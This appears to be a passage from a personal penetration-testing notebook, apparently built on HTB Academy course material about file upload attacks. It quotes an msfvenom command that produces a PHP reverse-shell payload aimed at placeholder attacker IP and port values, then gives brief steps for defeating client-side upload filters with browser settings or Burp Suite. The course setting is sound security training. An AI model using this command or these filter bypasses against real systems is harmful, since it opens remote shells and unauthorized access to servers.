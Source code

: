 > Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`:
> 
> 
> ```php
> 0xR3Y4D@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
> ...SNIP...
> Payload size: 3033 bytes
> ```
> 

# **Bypassing Filters**

## Bypassing Client-Side Filters

### 1 ⇒ Turn off **`Javascript`** in your browser.

### 2 ⇒ Intercept and modify the incoming page:

- **Using Burp suite, we can intercept the incoming web page and strip out the `Javascript` filter before it has a chance to run. The process for this will be covered below.**

![Untitled](../../../../0xN1ghtM4r3-Notebook%203351968cf3f74ad68a09245768551fca/0xR3Y4D-Notebook%207651c00ee0914affa2b674b2d962ac9c/Server%20Side%20Attacks%20b1a016ea12d5480c9b34a987022407f6/File%20Upload%20Attacks%20130ff70883154fac8c35d050cfce5144/Untitled%205.png)
